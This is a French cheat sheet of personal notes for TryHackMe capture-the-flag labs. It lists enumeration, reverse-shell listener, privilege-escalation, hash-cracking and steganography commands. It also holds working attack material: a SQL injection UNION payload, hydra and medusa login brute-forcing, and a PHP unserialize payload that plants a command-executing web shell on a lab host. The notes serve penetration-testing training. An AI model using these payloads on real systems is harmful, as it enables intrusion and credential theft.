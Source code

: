# TryHackMe



https://github.com/veikoon/pentest/blob/master/commandes.md

Utilitaire :

​	wordlists: ls /usr/share/wordlists/dirb/
​	tmux : <ctrl+a> </> <*>  créer des nouvelles fenêtres

## Premier etape

**Endpoint : ** 

```
gobuster dir -k -x txt,json,php,html -u http://$IP -w /opt/wordlists/common.txt
gobuster fuzz --exclude-length XXXX -b 404 -k -u http://$IP/fuzz -w /opt/wordlist/common.txt
```

**Port : **

```
nmap -sC -sV -A -oN nmap.log $IP
```

**vulnerability :** 

```
nikto -h $IP
```

Si rien ne marche ajouter l'option -Pn au début de nmap



## Reverse Shell

[Github des différentes reverse Shell command](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#tools)]



Stabiliser bash :

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctr+z

stty raw -echo; fg
```



*Si accés a l'uppload de fichier penssé a upload un fichier reverse php ?*

**Ne pas oublier d'écouter le port**

```
nc -lvp 4242
```



## Escalation Priviledge

​	[Liste des exploit avec permission](https://gtfobins.github.io/)

```bash
Find all SUID files: "fichier executable avec une autre perm que ton user"
find / -perm -4000 -print 2>>/dev/null
Find all SGID files:
find / -perm -2000 -print 2>>/dev/null
```



```
all sudo avaible
sudo -l

(ALL, !root) => sudo -u#-1 
```



Heberger un serveur pour passer des fichier

```
python2 -m SimpleHTTPServer
```



**PWnk!it    Exploit CVE-2021-4034**  [Github  source](https://github.com/ly4k/PwnKit)
**LinPeass analyse des faille dun système** [Github Source](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)



## Hash

haiti -e 42f749ade7f9e195bf475f37a44cafcb
https://crackstation.net/

hashcat -m XXX(look man) -a 0 HASH.hash /opt/wordlists/rockyou.txt

JohnTheReapper

## Reverse Engenering

gdv ./Programme
disas main
break point
`i r` (info registry)
x/s $XXXX



gdb
jump j *@ (modifié)
breakpoint b *@

## Sql injection

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
group_concat()
```

get the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. (modifié)

```sql
information_schema
```

contains information about all the databases and tables the user has access to


## osint 

```bash
exiftool WindowsXP.jpg  
```

## Steganographie

```
mogrify -format jpg important.png
java -jar stegsolve.jar 

stegsolve
steghide extract –sf image.jpeg
stegseek hellp.jpg /opt/wordlist/common.tx
```



## Windows SMB

https://tryhackme.com/room/metasploitintro

smbclient -L $IP 
smbclien -NL $IP

nmblookup -A $IP 



msfconsole
Search   *smb/netbios*
use *auxiliary/scanner/netbios/nbname*

## FTP

medusa -h $IP -U user.txt -P ./password.txt  -M ftp
**hydra -L username.txt -P password.txt ftp://$IP**

Mfsconsole :

```bash
auxiliary(scanner/ftp/ftp_login)

PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt   
```

Montrer fichier caché sur ftp :

**dir -la**

*

## Unserialize PHP

Si il y a une fct 

**unserialize($variable)** dans le code cherche comment ecrire dans debug une version serialisé dun payload de reverse shell en php

tu serialize

```php
<?php
class FormSubmit
{
   public $form_file = 'test.php';
   public $message = '<?php system($_GET["cmd"]); ?>';
}
print serialize(new FormSubmit);
?>
```

tu execute `php code.php`

tu navigue vers 

http://10.10.33.139/index.php?debug=O:10:%22FormSubmit%22:2:s:9:%22form_file%22;s:8:%22test.php%22;s:7:%22message%22;s:30:%22%3C?php%20system($_GET[%22cmd%22]);%20?%3E%22;}

Puis vers la page que tu as créé

http://10.10.33.139/test.php?cmd=INSSERT_TA_COMMANDE



## Crack SSH key

RSA  

```bash
ssh2john privatekey>key.haash
john --wordlist=/opt/wordlists/rockyou.txt key.hash
john --show key.haas

chmod +600 id_rsa
ssh user@$IP -i id_rsa
```

## BRUTE Force WEB LOG

```BASH
hydra -l molly -P rockyou.txt 10.10.219.212 http-post-form "/admin/index.php:username=^USER^&password=^PASS^:F=Your password is incorrect" -V
```

